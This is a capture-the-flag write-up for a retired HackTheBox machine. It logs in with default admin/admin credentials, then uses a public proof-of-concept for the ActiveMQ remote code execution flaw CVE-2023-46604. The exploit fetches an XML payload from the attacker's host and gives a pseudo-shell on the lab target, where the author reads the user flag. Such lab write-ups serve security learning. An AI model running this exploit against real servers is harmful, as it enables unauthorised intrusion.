 Upon accessing Port 80, I encountered a website prompting for a password. A quick attempt with the default credentials `admin/admin` successfully granted access.

![The ActiveMQ Website](https://i.ibb.co/zh7G9VM/sc2.png){:class="img-responsive"}
Subsequently, after logging in, the interface appears as depicted in the following image:

**Identify the Vulnerability**
This HackTheBox machine, now retired, highlights the significant `CVE-2023-46604`vulnerability in ActiveMQ. A quick search for "ActiveMQ vulnerability"
I found 3 available Poc on Github.
[evkl1d Poc](https://github.com/evkl1d/CVE-2023-46604)
[SaumyajeetDas Poc](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ)
[Duck-Sec Poc](https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell)
I will use the Duck-Sec Poc to solve this Box.

## Exploitation
To exploit this we need just to clone the Duck-Sec Poc and run the exploit against our machine.
But first we will run with `-h` flag to understand how to use the exploit.
```terminal
└─# python3 exploit.py -h                                      
usage: exploit.py [-h] -i IP [-p PORT] -si SRVIP [-sp SRVPORT]

options:
  -h, --help            show this help message and exit
  -i IP, --ip IP        ActiveMQ Server IP or Hostname
  -p PORT, --port PORT  ActiveMQ Server Port, defaults to 61616
  -si SRVIP, --srvip SRVIP
                        Serve IP
  -sp SRVPORT, --srvport SRVPORT
                        Serve port, defaults to 8080

```
To run it we need to specify the `i` for the target IP, the `-p` is the activeMQ port, the default is `61616` which we found in our nmap scan.
```terminal
└─# python3 exploit.py -i 10.10.11.243 -si 10.10.16.64 -sp 80  
#################################################################################
#  CVE-2023-46604 - Apache ActiveMQ - Remote Code Execution - Pseudo Shell      #
#  Exploit by Ducksec, Original POC by X1r0z, Python POC by evkl1d              #
#################################################################################

[*] Target: 10.10.11.243:61616
[*] Serving XML at: http://10.10.16.64:80/poc.xml
[!] This is a semi-interactive pseudo-shell, you cannot cd, but you can ls-lah / for example.
[*] Type 'exit' to quit

#################################################################################
# Not yet connected, send a command to test connection to host.                 #
# Prompt will change to Apache ActiveMQ$ once at least one response is received #
# Please note this is a one-off connection check, re-run the script if you      #
# want to re-check the connection.                                              #
#################################################################################

[Target not responding!]$ id
uid=1000(activemq) gid=1000(activemq) groups=1000(activemq)
```
Now we have our shell as `activemq`, let's grab the `user.txt`.
```terminal
$ cat user.txt
abb154f8786b43bXXXXXXXXXXXXXX
$ 
```
